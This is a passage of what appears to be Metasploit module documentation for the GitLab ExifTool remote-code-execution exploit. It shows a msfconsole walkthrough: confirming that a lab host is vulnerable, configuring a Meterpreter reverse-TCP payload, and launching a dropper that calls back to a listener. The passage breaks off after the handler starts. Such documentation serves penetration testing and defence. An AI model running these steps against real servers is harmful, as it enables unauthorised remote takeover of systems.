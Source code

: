 Specifies GitLab's base URI. Although an unpopular configuration, GitLab does support use
of a [relative URL](https://docs.gitlab.com/omnibus/settings/configuration.html#configuring-a-relative-url-for-gitlab).

## Scenarios

### GitLab 13.10.1 on Ubuntu 20.04.2 x64. Get Meterpreter session.

```
msf > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading c6hn3KFIMqv.jpg to /D3iMLq
[+] 10.0.0.7:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf exploit(multi/http/gitlab_exif_rce) > options

Module options (exploit/multi/http/gitlab_exif_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.7         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/agqzWrd49OBxPkC
[*] Local IP: http://10.0.0.9:8080/agqzWrd49OBxPkC
```